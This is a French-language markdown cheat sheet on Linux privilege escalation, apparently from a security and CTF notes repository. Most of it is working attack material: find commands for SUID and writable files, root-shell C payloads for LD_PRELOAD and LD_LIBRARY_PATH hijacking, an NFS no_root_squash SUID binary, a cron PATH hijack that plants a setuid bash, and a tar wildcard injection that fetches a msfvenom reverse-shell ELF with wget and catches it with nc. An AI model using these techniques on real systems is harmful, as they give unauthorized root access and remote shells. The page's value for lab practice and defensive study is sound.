 # Linux

Des techniques pour de la PrivEsc sur linux !

## Commande find

```
- find . -name flag1.txt: find the file named “flag1.txt” in the current directory
- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
- find / -type d -name config: find the directory named config under “/”
- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
- find / -perm a=x: find executable files
- find /home -user frank: find all files for user “frank” under “/home”
- find / -mtime 10: find files that were modified in the last 10 days
- find / -atime 10: find files that were accessed in the last 10 day
- find / -cmin -60: find files changed within the last hour (60 minutes)
- find / -amin -60: find files accesses within the last hour (60 minutes)
- find / -size 50M: find files with a 50 MB size

- find / -type f -perm -04000 -ls 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 

- find / -writable -type d 2>/dev/null  : Find world-writeable folders
- find / -perm -222 -type d 2>/dev/null : Find world-writeable folders
- find / -perm -o w -type d 2>/dev/null : Find world-writeable folders
- find / -perm -o x -type d 2>/dev/null : Find world-executable folders

Find development tools and supported languages:

- find / -name perl*
- find / -name python*
- find / -name gcc*
```
## LD_PRELOAD

```
The steps of this privilege escalation vector can be summarized as follows;

    Check for LD_PRELOAD (with the env_keep option)
    Write a simple C code compiled as a share object (.so extension) file
    Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

## NFS

```
cat /etc/exports
```

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/abe3fe15-addc-4f91-8150-3dd064e5e346)

tout ce qui contient "no_root_squash" est suscpetible de permettre un PrivEsc.
<br>
Pour checker les repertoires à distance
[Attaquant]
```
showmount -e <ip_distante>
```
```
mount -o rw <ip_distante>:/backups /tmp/backup
```
Script 'privEsc.c'

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```
gcc privEsc.c -o privEsc -w
chmod +s privEsc
```

[Victime]
```
./privEsc
```
<br>
<br>
## Sudo - Environment Variables

Quand `sudo -l` si LD_PRELOAD ou LD_LIBRARY_PATH, qui sont des librairies partagées, il est possible de faire un PrivEsc avec 

Créer un objet partagé dans le répertoire `/home/user/tools/sudo/preload.c`
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Script `preload.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

### Apache2 & LD_LIBRARY_PATH

Pour savoir quelles librairies sont utilisées avec apache2

```
ldd /usr/sbin/apache2
```
Créer un objet partagé avec le même nom que un de ceux qui ont été affiché

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Lancé apache2 avec sudo 

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

Script `library_path.c`

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

<br>
<br>
## Cron Jobs - PATH Environment Variable

Exemple
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Checker la variable `PATH` dans /etc/crontab, choper un endroit qui est `writable` par notre utilisateur et y créer un petit script `overwrite.sh` dans `/home/user`

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
```
chmod +x overwrite.sh
```

puis 

```
/tmp/rootbash -p
```

## Cron Jobs - Wildcard

Cas de `tar` (Cf. Crontab au dessus)

```
user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

[Attaquant]
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
chmod +x /home/user/shell.elf
python -m http.server
```

[Victime] (Cf. <a href="https://gtfobins.github.io/gtfobins/tar/">GTFObins</a>)

```
wget http://IP:8000/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
chmod +x shell.elf
```

[Attaquant]
```
nc -lnvp 1337
```
